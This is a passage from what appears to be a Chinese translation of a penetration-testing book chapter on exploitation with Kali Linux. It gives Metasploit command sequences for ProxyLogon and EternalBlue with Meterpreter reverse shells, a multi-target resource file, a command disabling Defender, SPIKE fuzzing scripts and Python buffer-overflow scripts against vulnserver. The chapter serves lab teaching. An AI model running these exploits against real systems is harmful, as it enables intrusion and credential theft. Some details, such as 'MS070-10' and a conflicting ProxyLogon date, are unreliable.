


# 第十章：漏洞利用

渗透测试的关键目的是利用数据系统并获取凭证或直接访问感兴趣的数据。正是漏洞利用赋予了渗透测试意义。在本章中，我们将研究利用系统的各种方式，包括公共漏洞和可用的漏洞框架。到本章结束时，你应该能够理解以下内容：

+   Metasploit 框架

+   使用 Metasploit 对目标进行漏洞利用

+   使用公共漏洞

+   开发特定于 Windows 的示例漏洞

+   Empire PowerShell 框架

# Metasploit 框架

**Metasploit 框架** (**MSF**) 是一款开源工具，旨在简化渗透测试。它使用 Ruby 编程语言编写，采用模块化方法来促进在网络杀伤链方法论中的漏洞利用阶段。这使得开发和编写漏洞变得更加容易，同时也使复杂的攻击得以轻松实现。

*图 10.1* 展示了 MSF 架构及其组件的概述：


图 10.1：Metasploit 架构及其组件

框架可以分为三个主要部分：

+   库

+   接口

+   模块

## 库

MSF 是通过多种功能、库以及编程语言（如 Ruby）构建的。为了利用这些功能，渗透测试员必须了解这些功能是什么，如何触发它们，应该传递什么参数，以及预期的结果是什么。

所有库都列在 `/usr/share/Metasploit-framework/lib/` 文件夹中，如 *图 10.2* 所示：


图 10.2：Metasploit 库文件夹

### REX

REX 是 Metasploit 中的一个库，最初由 Jackob Hanmack 开发，后来由 Rapid 7 开发团队正式化。这个库提供了多种对漏洞开发有用的类。在当前的 MSF 中，REX 处理所有核心功能，如套接字连接、原始函数和其他格式化操作。

### 框架核心

该库位于 `/usr/share/metasploit-framework/lib/msf/core`，为所有将要编写的新模块提供基本的 **应用程序编程接口** (**API**)。

### 框架基础

该库为会话、shell、Meterpreter、VNC 和其他默认 API 提供了良好的 API，但它依赖于框架核心。

MSF 的其他扩展部分包括自定义插件、协议工具、安全工具、Web 服务和其他集成服务。

## 接口

MSF 以前有多种接口，例如命令行界面、Web 界面等。在最新版本（社区版和专业版）中，Rapid 7 开发团队已经淘汰了所有这些接口。在本章中，我们将探索控制台和 GUI（Armitage）接口。控制台界面是最快的，因为它直接呈现攻击命令，并且提供易于使用的配置参数界面。

要访问这个界面，在命令提示符下输入`sudo msfconsole`。*图 10.3*显示了应用程序启动时出现的启动画面：


图 10.3：Metasploit 控制台主菜单

## 模块

MSF 由模块组成，这些模块组合起来形成一个攻击方式。各模块及其特定功能如下：

+   **漏洞利用**：针对特定漏洞的代码片段。主动漏洞利用会针对特定目标进行攻击，执行直到完成，然后退出（例如缓冲区溢出）。被动漏洞利用则等待连接的主机，例如 Web 浏览器或 FTP 客户端，当它们连接时进行攻击。

+   **有效载荷**：这些是紧随成功漏洞利用后执行的恶意代码。

+   **辅助模块**：这些模块不会在测试者和目标系统之间建立或直接支持访问；相反，它们执行相关的功能，如扫描、模糊测试或嗅探，支持漏洞利用阶段。

+   **后期模块**：在成功攻击后，这些模块在受控目标上运行，以收集有用数据，并帮助攻击者深入目标网络。在*第十一章*中，我们将深入学习后期模块，*目标行动与横向移动*。

+   **编码器**：当漏洞利用必须绕过防病毒防御时，这些模块会对有效载荷进行编码，使其无法通过签名匹配技术被检测到。

+   **无操作**（**NOPs**）：这些用于攻击时促进缓冲区溢出。

这些模块一起使用，用于进行侦察并对目标发起攻击。利用 MSF 利用目标系统的步骤可以总结如下：

1.  选择并配置漏洞利用（针对目标系统中某一特定漏洞的代码）。

1.  检查目标系统，以确定它是否容易受到该漏洞的攻击。此步骤是可选的，通常为了减少被检测的风险会省略。

1.  选择并配置有效载荷（在成功利用后将在目标系统上执行的代码；例如，从受控系统到源系统的反向 Shell）。

1.  选择一种编码技术，以绕过检测控制（例如 IDS/IPs 或防病毒软件）。

1.  执行漏洞利用。

## 数据库设置与配置

设置 Metasploit 的新版本相对简单，因为从`msf3`版本开始，Metasploit 不再作为服务运行：

1.  通过在终端中运行 `sudo systemctl start postgresql.service` 启动 PostgreSQL。

1.  通过运行 `sudo msfdb init` 来初始化 Metasploit 数据库。除非是第一次操作，否则初始化将创建 `msf` 数据库、创建角色，并将 `msf_test` 和 `msf` 数据库添加到 `/usr/share/metasploit-framework/config/database.yml` 配置文件中；如果不是第一次，默认情况下，`msf` 数据库将在 Kali Linux 的预构建环境中创建，如 *图 10.4* 所示：

    图 10.4：初始化 Metasploit 数据库

1.  现在，你已经准备好访问 `msfconsole`。

1.  进入控制台后，你可以通过输入 `db_status` 来验证数据库的状态。你应该能够看到以下内容：

    ```
    msf6 > db_status 
    [*] Connected to msf. Connection type: postgresql. 
    ```

1.  如果有多个目标，且这些目标属于不同的公司单位，或可能是两个不同的公司，最好在 Metasploit 中创建一个工作区。这可以通过在 `msfconsole` 中运行 `workspace` 命令来实现。以下摘录显示了帮助菜单，在这里你可以添加/删除工作区，以便组织这些漏洞利用，从而实现你的目标：

    ```
    msf6 > workspace -h
    Usage:
        workspace                  List workspaces
        workspace -v               List workspaces verbosely
        workspace [name]           Switch workspace
        workspace -a [name] ...    Add workspace(s)
        workspace -d [name] ...    Delete workspace(s)
        workspace -D               Delete all workspaces
        workspace -r <old> <new>   Rename workspace
        workspace -h               Show this help information
    msf6 > workspace -a Fourthedition
    [*] Added workspace: Fourthedition
    [*] Workspace: Fourthedition
    msf6 > workspace
      default
    * Fourthedition 
    ```

以下示例表示针对目标基于 Linux 的操作系统进行的简单 **Unreal IRCD** 攻击。安装为虚拟机后（如 *第一章*、*基于目标的渗透测试* 中所述），运行在 10.10.10.8 上的 Metasploitable3 Ubuntu 可以通过 `db_nmap` 命令扫描，该命令识别开放端口和关联应用程序。`db_nmap` 扫描的摘录如 *图 10.5* 所示：

```
msf6 > db_nmap -vv -sC -Pn -p- 10.10.10.8 --save 
```


图 10.5：在 Metasploit 中运行 db_nmap 扫描

使用 --save 选项时，扫描结果的所有输出将保存在 `/root/.msf4/local/` 文件夹中。在前面的示例中，通过 `nmap` 已识别了几个应用程序。

如果扫描是单独使用 `nmap` 完成的，这些结果也可以通过 `db_import` 命令导入到 Metasploit 中。`nmap` 输出通常会产生三种类型的输出，分别是 `xml`、`nmap` 和 `gnmap`。

`.xml` 格式可以通过 Nmap 的 `nokogiri` 解析器导入到数据库中。导入结果后，在处理大型 `nmap` 数据集时，可以利用多种选项：


图 10.6：将独立的 Nmap 扫描导入 Metasploit

作为测试人员，我们应该检查每个目标是否存在已知的漏洞。如果我们在 `msfconsole` 中运行 `services` 命令，数据库应包括主机及其列出的服务，如 *图 10.7* 所示：


图 10.7：列出 Metasploit 中的所有服务

开始的一个重要地方是 Metasploit 自带的漏洞集合。可以通过以下命令从命令行进行搜索：

```
msf> search UnrealIRCd 
```

搜索返回了针对 `UnrealIRCd` 服务的特定漏洞。*图 10.8* 显示了可用漏洞的摘录。如果测试人员选择利用任何其他列出的服务，他们可以在 Metasploit 中搜索关键字：


图 10.8：在 Metasploit 控制台中进行关键字搜索以查找漏洞

新版本的 Metasploit 索引了模块，并允许测试人员仅通过输入索引中的数字来使用它。由于 `exploit/unix/irc/unreal_ircd_3281_backdoor` 漏洞被评为优秀，因此在本示例的其余部分中选择了此漏洞。此排名由 Metasploit 开发团队确定，标识该漏洞对于经验丰富的测试人员在稳定的目标系统上工作的可靠性。在现实中，多个变量（测试人员的技能、网络中的保护设备、操作系统和托管应用程序的修改）可能会共同作用，显著改变漏洞的可靠性。

使用以下 `info` 命令获得了有关该漏洞的更多信息：

```
msf> info 0 
```

返回的信息包括参考资料以及在*图 10.9*中显示的信息：


图 10.9：使用 info 命令获取漏洞的详细信息

要指示 Metasploit 使用此漏洞进行攻击，我们发出以下命令：

```
Msf6> use exploit/unix/irc/unreal_ircd_3281_backdoor 
```

Metasploit 将命令提示符从 `msf>` 更改为 `msf exploit(unix/irc/unreal_ircd_3281_backdoor) >`。

Metasploit 提示测试人员选择有效载荷（从受损系统到攻击者的反向 shell）并设置其他变量，列举如下：

+   **远程主机** (**RHOST**)：这是被攻击系统的 IP 地址。

+   **远程端口** (**RPORT**)：这是用于漏洞利用的端口号。在此案例中，我们可以看到该服务已在默认端口 `6667` 上被利用，但在我们的情况下，同样的服务运行在端口 `6697` 上。

+   **本地主机** (**LHOST**)：这是用于发起攻击的系统的 IP 地址。

在所有变量都设置好之后，通过在 Metasploit 提示符下输入 `exploit` 命令来发起攻击。Metasploit 启动攻击并确认 Kali Linux 与目标系统之间的反向 shell 已经打开。在其他漏洞中，成功的漏洞利用通过使用 `command shell 1 opened` 来表示，并给出发起和终止反向 shell 的 IP 地址。

为了验证是否存在 shell，测试人员可以查询主机名、用户名（`uname -a`）和 `whoami`，以确认返回的结果是特定于位于远程位置的目标系统。请查看 *图 10.10*：


图 10.10：使用 Metasploit 通过反向 shell 成功利用 UnrealIRC

此漏洞可以通过使用后渗透模块进一步探索。通过按 *Ctrl* + *Z* 在后台运行 Meterpreter。你应当收到 `Background session 1? [y/N] y enter y`。

当系统被攻击到这种程度时，便可以进行后续的利用活动（参见 *第十一章*，*目标行动与横向移动*，以及 *第十三章*，*命令与控制*，了解如何提升权限并保持对系统的访问）。

# 利用 MSF 攻击目标

MSF 对操作系统的漏洞和第三方应用程序的漏洞同样有效。我们将举例说明这两种情况。

## 使用简单反向 shell 的单一目标

在这个例子中，我们将利用两个不同的漏洞。第一个是著名的 ProxyLogon 漏洞，该漏洞被 Hafnium 威胁组织滥用，利用 Microsoft Exchange Server 在 2021 年 3 月发起攻击，造成了互联网风暴，并引发了全球范围内的多个网络安全事件和金融欺诈。主要被利用的四个漏洞是：

+   **CVE-2021-26855**：**服务器端请求伪造**（**SSRF**） – 攻击者可以远程提交特制的 HTTP 请求，且无需身份验证，服务器接受来自 TCP 端口 `443` 的不信任连接。

+   **CVE-2021-26857** – 微软 Exchange **统一消息服务**（**UMS**）中的不安全反序列化漏洞，允许攻击者以高权限的 SYSTEM 账户运行恶意代码。此漏洞可以通过 SSRF 或被窃取的凭证进行利用。

+   **CVE-2021-26858** 和 **CVE-2021-27065** – 这两个漏洞都涉及到任意文件写入漏洞，允许将文件写入指定目录。

在以下示例中，我们将演示如何结合利用 **CVE-2021-26855** 绕过身份验证并冒充管理员账户，以及利用 **CVE-2021-27065** 写入任意文件并通过载荷提供远程代码执行权限。

作为第一步，攻击者需要确保目标上的 Microsoft Exchange Server 是暴露的，并枚举出所有电子邮件地址，以执行成功的攻击。测试者可以利用 Python ProxyShell 枚举脚本列出所有连接到 Exchange 服务器的用户。此脚本可以在[`github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/blob/main/Chapter%2010/ProxyShell-enumerate.py`](https://github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/blob/main/Chapter%2010/ProxyShell-enumerate.py)上找到。

攻击者可以运行`python3 proxyshell-enumerate.py –u <Exchange server IP>`。该脚本在目标上的输出应该会显示 Exchange 服务器中的所有电子邮件地址，如在*图 10.11*中所示：


图 10.11：Exchange 服务器上用户电子邮件地址的枚举

要启动此攻击，第一步是通过运行以下命令来打开 MSF，如*图 10.12*所示：

```
sudo msfconsole 
search proxylogon
use exploit/windows/http/exchange_proxylogon_rce
set payload windows/meterpreter/reverse_https
set rhosts <your Exchange server IP>
set email <administrator email id>
set lhost <Your Kali IP>
set lport <You kali port> 
```


图 10.12：在 Exchange 漏洞上运行利用代码

如果出现任何错误消息，或者利用攻击完成后没有 Meterpreter Shell，确保通过在 PowerShell 中以管理员身份运行`Set-MpPreference -DisableRealtimeMonitoring $true`来禁用 Microsoft Exchange Server 中的 Defender。

成功的漏洞利用会导致在高权限的 SYSTEM 用户上下文中执行任意代码。成功执行代码后，你应该能获得在*图 10.13*中显示的 Meterpreter Shell：


图 10.13：成功的漏洞利用导致 Meterpreter HTTPS 反向 Shell

当利用漏洞成功完成后，它应该会在两个系统之间打开 Meterpreter 反向 Shell。Meterpreter 提示符会打开，测试者可以有效地通过命令行 Shell 访问远程系统。攻击成功后的第一步之一是验证你是否已经进入目标系统。正如在*图 10.14*中所示，`sysinfo`命令能够识别计算机名和操作系统，验证攻击是否成功：


图 10.14：被攻陷服务器的系统信息

我们将在本节中探索的第二个漏洞是 MS070-10，它通过利用 EternalBlue 漏洞在 2017 年 4 月引发了全球范围的 WannaCry 勒索病毒。该漏洞存在于 Windows 中 SMB 版本的实现方式，具体来说，是 SMBv1 和通过 TCP 端口`445`及端口`139`传输 NBT 的方式——这用于安全地共享数据。

成功的利用会导致攻击者能够在远程系统上运行任意代码。尽管这个漏洞较为陈旧，但许多组织仍然不得不依赖一些遗留系统。这可能是由于各种原因，如 OEM 依赖性，或是业务本身无法摆脱旧系统，比如 Windows XP、7、2003、Windows 2008 和 Windows 2008 R2。为了展示如何轻松利用这些遗留系统，我们将利用 Metasploitable3（运行在`10.10.10.4`）进行该漏洞利用，通过在 Kali 终端中设置以下内容：

```
sudo msfconsole 
search eternal
use exploit/windows/smb/ms17_010_eternalblue 
set payload windows/meterpreter/reverse_https
set rhosts <your Exchange server IP>
set lhost <Your Kali IP>
set lport <You kali port> 
```


图 10.15：使用 Metasploit 利用 EternalBlue 漏洞

最后，漏洞利用应该为我们提供类似于之前漏洞利用中看到的 Meterpreter Shell。`hashdump`命令应该显示所有用户名和密码哈希值，如*图 10.16*所示：


图 10.16：在 Meterpreter 中使用 hashdump 提取用户名和哈希值

此外，为了存储这些信息以增强网络中的横向移动，测试人员可以在`msfconsole`中利用`incognito`和`kiwi`模块。

# 使用 MSF 资源文件利用多个目标

MSF 资源文件基本上是按行分隔的文本文件，其中包含需要在`msfconsole`中执行的一系列命令。让我们创建一个资源文件，该文件可以在多个主机上利用相同的漏洞：

```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set rhost xx.xx.xx.xx
set lhost xx.xx.xx.xx
set lport 4444
exploit -j
use exploit/windows/http/exchange_proxylogon_rce
set payload windows/meterpreter/reverse_https
set rhost xx.xx.xx.xx
set lhost xx.xx.xx.xx
set lport 443
exploit -j 
```

将文件保存为`multiexploit.rc`。现在，您可以通过运行`msfconsole -r filename.rc`来调用资源文件，其中`-r`表示资源文件。上述资源文件将按顺序利用相同的漏洞。一旦第一个漏洞利用完成，指定`exploit -j`将把正在运行的漏洞利用转移到后台，允许下一个漏洞利用继续。一旦所有目标的漏洞利用完成，我们应该能够在 Metasploit 中看到多个 Meterpreter Shell。

如果漏洞利用设计仅在单个主机上运行，可能无法在漏洞利用中输入多个主机或 IP 范围。然而，替代方法是对每个主机使用不同的端口号运行相同的漏洞利用。我们将在下一章详细讨论在提升权限时可以利用的现有 MSF 资源文件。

# 使用公共漏洞

每个攻击者都始终在寻找公共漏洞，并根据自己的需求修改它们。最近的一个漏洞利用是在 2021 年 8 月 6 日发布的 ProxyLogon 漏洞，它震惊了大多数运行本地 Exchange 服务器的公司，这些服务器承载了所有关键业务邮件，进而提高了对信息窃取恶意软件的认识。然而，在本节中，我们将深入探讨如何利用已知的可用漏洞论坛，以及如何将它们整合到我们的 Kali Linux 系统中。

## 定位并验证公开可用的漏洞

渗透测试人员在测试过程中经常发现零日漏洞，通常会通知公司。然而，对于真正的攻击者来说，发现的任何漏洞都会被制作成漏洞利用工具，然后卖给像 VUPEN 这样的公司，以获取金钱或名声。渗透测试的一个重要方面是寻找互联网上公开可用的漏洞并提供概念验证。

最初的漏洞数据库诞生于互联网上，名为 Milw0rm。基于相同的概念，我们可以看到多个类似的数据库，渗透测试社区可以利用它们。以下是攻击者主要查找漏洞的地方列表：

+   **Exploit-DB**（**EDB**）：顾名思义，它是一个包含互联网上公共漏洞的数据库档案，并列出了易受攻击的软件版本。EDB 由漏洞研究人员和渗透测试人员开发，旨在服务于社区。

    渗透测试人员通常将 Exploit-DB 作为概念验证工具，而非咨询工具，这使得它在渗透测试或红队演习中更具价值：

    +   EDB 被嵌入到 Kali Linux 2.0 中，作为构建版本的一部分，使得通过 SearchSploit 搜索所有可用漏洞变得相对简单。EDB 的优势在于它还兼容**常见漏洞和暴露**（**CVEs**）。在适用的情况下，漏洞将包括 CVE 详细信息。

+   **SearchSploit：** SearchSploit 是 Kali Linux 中的一个简单工具，用于通过关键词搜索 EDB 中的所有漏洞，从而缩小攻击范围。打开终端并输入`searchsploit exchange windows remote`后，您应该能够看到以下内容：

    图 10.17：从 searchsploit 搜索自定义漏洞

## 编译并使用漏洞

攻击者将收集所有相关的漏洞，发布并汇编它们，然后准备好作为武器来利用目标。在本节中，我们将深入探讨如何汇编不同类型的文件，并添加所有以`msfcore`为 Metasploit 模块基础的用 Ruby 编写的漏洞。

### 编译 C 文件并执行漏洞

旧版本的漏洞通常是用 C 语言编写的，特别是缓冲区溢出攻击。让我们看看从 EDB 编译 C 文件并为易受攻击的 Apache 服务器制作漏洞的一个例子。

攻击者可以利用 GNU 编译器集合将 C 文件编译成可执行文件，使用以下命令：

```
cp /usr/share/exploitdb/exploits/windows/remote/3996.c apache.c
gcc apache.c -o apache
./apache 
```

一旦文件成功编译且没有任何错误或警告，攻击者应该能够看到漏洞正在运行，如*图 10.18*所示：


图 10.18：编译 C 文件并从 EDB 运行

### 添加使用 MSF 作为基础编写的漏洞

根据平台和运行的漏洞类型，可以直接从浏览器或从`/usr/share/exploitdb/exploits/`复制漏洞文件/脚本。

在这个示例中，我们将使用`/usr/share/exploitdb/exploits/windows/remote/16756.rb`。

将 Ruby 脚本作为定制漏洞添加到 Metasploit 模块，将文件移动或复制到`/usr/share/metasploit-framework/modules/exploits/windows/http/`，并将文件命名为`NewExploit.rb`：

```
sudo cp /usr/share/exploitdb/exploits/windows/remote/16756.rb /usr/share/metasploit-framework/modules/exploits/windows/http/NewExploit.rb 
```

一旦文件被复制或移动到新的位置，必须重新启动`msfconsole`，以确保文件已被加载到 Metasploit 中的可用模块中。你将能够使用你设置的自定义名称，作为 Metasploit 可用模块的一部分：


图 10.19：将定制漏洞从 EDB 添加到 Metasploit 框架

这就结束了将 EDB 中的现有漏洞添加到 Metasploit 的过程。我们将在下一节中探讨编写我们自己的定制漏洞。

# 开发 Windows 漏洞

漏洞开发是一项艰难的艺术，要求攻击者对汇编语言和底层系统架构有一定的理解。我们可以利用以下五阶段方法来开发一个定制漏洞：


图 10.20：五阶段定制漏洞开发

在本节中，我们将介绍开发 Windows 漏洞所需的一些基础知识，通过构建一个易受攻击的应用程序。从漏洞开发的角度来看，渗透测试人员在开发漏洞时必须了解以下基本术语：

+   **寄存器**：所有进程通过寄存器执行；这些寄存器用于存储信息。

+   **x86**：这包括大多数基于 Intel 的 32 位系统；64 位系统表示为 x64。

+   **汇编语言**：这包括低级编程语言。

+   **缓冲区**：这是程序中一个静态的内存存储器，用于在栈或堆上存储数据。

+   **调试器**：调试器是可以在程序执行时查看程序运行状态的工具。你还可以使用它们查看寄存器和内存的状态。我们将使用的一些工具包括 Immunity Debugger、GDB 和 OllyDbg。

+   **ShellCode**：这是攻击者在成功利用过程中创建的代码。

以下是不同类型的寄存器：

+   **EAX**：这是一个 32 位寄存器，用作累加器并存储数据和操作数。

+   **EBX**：这是一个 32 位基寄存器，作为数据的指针。

+   **ECX**：这是一个 32 位寄存器，用于循环目的。

+   **EDX**：这是一个 32 位数据寄存器，用于存储 I/O 指针。

+   **ESI/EDI**：这两个是 32 位索引寄存器，作为所有内存操作的数据指针。

+   **EBP**：这是一个 32 位的堆栈数据指针寄存器。

+   **扩展指令指针** (**EIP**): 这是一个 32 位的程序计数器/指令指针，用于保存下一条待执行的指令。

+   **扩展堆栈指针** (**ESP**): 这是一个 32 位堆栈指针寄存器，精确地指向堆栈所在的位置。

+   **SS**、**DS**、**ES**、**CS**、**FS** 和 **GS**: 这些是 16 位的段寄存器。

+   **NOP**: 这是空操作的缩写。

+   **JMP**: 这是跳转指令的缩写。

## 通过模糊测试识别漏洞

攻击者必须能够识别任何给定应用程序中的正确模糊测试参数，以找到漏洞并加以利用。在本节中，我们将通过 Stephen Bradshaw 创建的**易受攻击的服务器**示例进行讲解。

该易受攻击的软件可以从[`github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/tree/main/Chapter%2010/`](https://github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/tree/main/Chapter%2010/)下载

在本例中，我们将使用 Windows 10 来托管易受攻击的服务器。一旦下载完应用程序，我们将解压文件并运行服务器。

这将为远程客户端打开`9999`端口以进行连接。当易受攻击的服务器启动并运行时，你应该能看到如下内容：


图 10.21：Windows 10 上运行的易受攻击服务器

攻击者可以通过`netcat`连接到`9999`端口的服务器，从 Kali Linux 与服务器进行通信，如*图 10.22*所示：


图 10.22：从 Kali Linux 连接到易受攻击的服务器

Fuzzing（模糊测试）是一种技术，攻击者专门向目标发送格式错误的数据包，以产生应用程序错误或一般性故障。这些故障指示应用程序开发者编写的代码中存在漏洞。

攻击者可以通过运行他们自己的代码，找出如何利用该漏洞来实现远程访问。现在，应用程序已可访问，一切准备就绪，攻击者可以开始模糊测试的工作。

尽管有许多模糊测试工具可供选择，但 SPIKE 是 Kali Linux 上默认安装的工具之一。SPIKE 是一个模糊测试工具包，它通过提供脚本编写功能来创建模糊测试工具；然而，它是用 C 语言编写的。以下是可以在 SPIKE 中使用的解释器列表：

+   `generic_chunked`

+   `generic_send_tcp`

+   `generic_send_udp`

+   `generic_web_server_fuzz`

+   `generic_web_server_fuzz2`

+   `generic_listen_tcp`

SPIKE 允许你添加自己的脚本集，而无需用 C 语言编写几百行代码。攻击者还可以考虑使用其他模糊测试工具，如 Peach Fuzzer、BooFuzz 和 FilFuzz。

一旦攻击者连接到目标应用程序，他们应该能够在易受攻击的服务器中看到多个可用选项，然后可以进行操作。这包括`STATS`、`RTIME`、`LTIME`、`SRUN`、`TRUN`、`GMON`、`GDOG`、`KSTET`、`GTER`、`HTER`、`LTER`和`KSTAN`等有效命令的一部分，这些命令需要输入。我们将使用`generic_send_tcp`解释器来对应用程序进行模糊测试。使用该解释器的格式如下：`. /generic_send_tcp 主机 端口 spike_script SKIPVAR SKIPSTR`：

+   `host`：这是目标主机或 IP 地址。

+   `port`：这是要连接的端口号。

+   `spike_script`：这是要在解释器中运行的 SPIKE 脚本。

+   `SKIPVAR`和`SKIPSTR`：这使得测试人员可以在模糊测试会话的中间跳入，如 SPIKE 脚本中所定义。

作为下一关键步骤，让我们继续创建一个简单的 SPIKE 脚本来进行`readline`，运行`SRUN`，并将字符串值作为参数传递：

```
s_readline(); 
s_string("SRUN |"); 
s_string_variable("VALUE"); 
```

脚本将在连接到 IP/主机名后读取输入的第一行（`s_readline`），然后运行`SRUN`，并生成一个随机值。注意，要运行 SPIKE 脚本，必须将其保存为`.spk`文件格式。现在，让我们将上述三行保存为`exploitfuzzer.spk`文件，并如*图 10.23*所示，对目标运行 SPIKE 脚本：



图 10.23：使用 SRUN 对易受攻击的服务器进行模糊测试

在对应用程序进行模糊测试后，确认没有服务器崩溃或类似问题，因此`SRUN`参数并不容易受攻击。接下来的步骤是选择另一个参数。这次我们将选择`TRUN`作为参数，在相同脚本中进行模糊测试：

```
s_readline(); 
s_string("TRUN |"); 
s_string_variable("VALUE"); 
```

保存`exploitfuzz.spk`文件并运行相同的命令，如*图 10.24*所示：


图 10.24：使用 TRUN 对易受攻击的服务器进行模糊测试

使用 TRUN 对应用程序进行模糊测试导致应用程序崩溃，因此现在我们可以确认此功能可以被滥用和利用。作为下一关键步骤，我们必须调试并以更详细的方式复制崩溃。

## 调试并复制崩溃

在服务器端，我们必须调试应用程序。为了进行调试，我们将从[`www.immunityinc.com/products/debugger/`](https://www.immunityinc.com/products/debugger/)下载 Immunity Debugger。该调试器主要用于查找漏洞、分析恶意软件和逆向工程任何二进制文件。在运行`vulnserver.exe`后，可以将易受攻击的服务器作为进程附加到调试器中，或者直接通过调试器可执行并打开，如*图 10.25*所示：


图 10.25：使用 Immunity Debugger 加载 vulnserver

一旦应用程序通过调试器运行，并且我们的 Kali Linux 系统中运行了模糊测试脚本，如*图 10.25*所示，您应该能够看到服务器在受害者的计算机上崩溃。

调试器还为我们提供了一些有用的信息，如异常偏移量 `41414141`，我们可以在 Immunity Debugger 中的 **Registers** 部分记下它（转换为 `AAAA`），如 *图 10.26* 所示：


图 10.26：因模糊测试导致 vulnserver 崩溃后的寄存器信息

为了成功进行给定应用程序的缓冲区溢出攻击，涉及以下步骤：

1.  寻找正确的尖峰长度

1.  模糊测试正确的模式

1.  寻找偏移量

1.  覆盖 EIP

1.  寻找 JMP ESP 操作的正确地址

1.  检查坏字符并放置 NOPS sled

1.  生成 shellcode

1.  设置监听器并进行利用

第一步是准确找出导致服务器崩溃的字符数量，以及可以利用的缓冲区大小。我们将开始调试崩溃的应用程序，查看 **Registers**（寄存器）部分中的 ESP 地址，在 Immunity Debugger 中右键点击并选择 **Follow in Dump**，查看有效载荷最初是如何插入的，并记下内存地址 `00ACF1F0`，如 *图 10.27* 所示：


图 10.27：模糊测试开始时的初始内存

如果我们一直遍历到模糊测试 AAA 停止的地方，你会看到 `00ACFD98`，如 *图 10.28* 所示。请注意，这些地址会根据你在调试或反汇编可执行文件时使用的操作系统发生变化。


图 10.28：模糊测试内存地址的结束

现在我们有了开始和结束地址，接下来让我们使用 `python3` 通过在终端运行 `python3`，并简单地输入 `0x00ACFD98`（内存地址的结束位置）和 `0x00ACF1F0`（内存地址的起始位置），如下所示。它应该会给我们提供缓冲区的长度：

```
─# python3                                                            
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x00ACFD98 - 0x00ACF1F0
2984 
```

在这种情况下，我们有一个 `2984` 的缓冲区长度。下一步是控制我们利用代码的执行。

## 控制应用程序的执行

我们现在已经知道了缓冲区的长度。下一步是找到正确的偏移量来控制 EIP。让我们编写一个快速的 Python 脚本，通过精确的长度连接到脆弱的服务器，这个长度会使服务器崩溃，保存文件为 `crash.py`，并在目标 IP 上运行：

```
import socket
s = socket.socket()
s.connect(("10.10.10.4",9999))
leng = 2984
payload = [b"TRUN /.:/",b"A"*leng]
payload = b"".join(payload)
s.send(payload)
s.close() 
```

下一步是使用 MSF 创建一个模式，通过定位到 `/usr/share/etasploit-framework/tools/exploit/` 文件夹，并在 Kali Linux 终端中运行 `./pattern_create -l 2984`。

你可以将生成的内容输出到文件中，也可以从终端复制它。或者，你可以通过在 Python 程序中添加另一个变量来使用它。这次我们将禁用缓冲区，并使用由攻击工具生成的长度为 `2984` 的模式：

```
import socket
s = socket.socket()
s.connect(("10.10.10.4",9999))
leng = 2984
payload = [b"TRUN /.:/",b"<PAYLOAD FROM PATTERNCREATE>"]
payload = b"".join(payload)
s.send(payload)
s.close() 
```

同样，运行`crash.py`对目标进行攻击将导致服务器再次崩溃。然而，所有的`A`字符都被创建的模式替换了。在易受攻击的服务器上，我们应该能够看到 Immunity Debugger 中的寄存器，它提供了将存储在`EIP`中的下一条指令，如*图 10.29*所示：


图 10.29：注入模式后的应用程序 EIP

这是与下一个 EIP `386F4337`进行模糊测试的结束。要创建一个特定于 Windows 的漏洞利用，我们必须识别 EIP 的正确偏移量。可以使用像`pattern_offset`这样的漏洞利用工具提取该偏移量，`pattern_offset`接受 EIP 输入，并且输入长度与创建模式时使用的长度相同。

```
cd /usr/share/etasploit-framework/tools/exploit/
sudo ./pattern_offset.rb -q 0x386F4337 –l 2984
[*] Exact match at offset 2003 
```

这意味着在使用 EIP 创建的模式中找到了偏移匹配。现在，我们知道缓冲区`2003`足以使服务器崩溃，我们可以开始溢出，并查看是否能够覆盖 EIP：

```
import socket
s = socket.socket()
s.connect(("10.10.10.4",9999))
leng = 2984
offset = 2003
eip = b"BBBB"
payload = [b"TRUN /.:/",b"A"*offset,eip,b"C"*(leng – offset -len(eip))]
payload = b"".join(payload)
s.send(payload)
s.close() 
```

在 Kali Linux 中执行前面的 Python 代码后，您应该看到我们覆盖的 EIP。如果一切正确，您应该在服务器端看到 EIP 为`42424242`，并在 Immunity 调试器中显示：


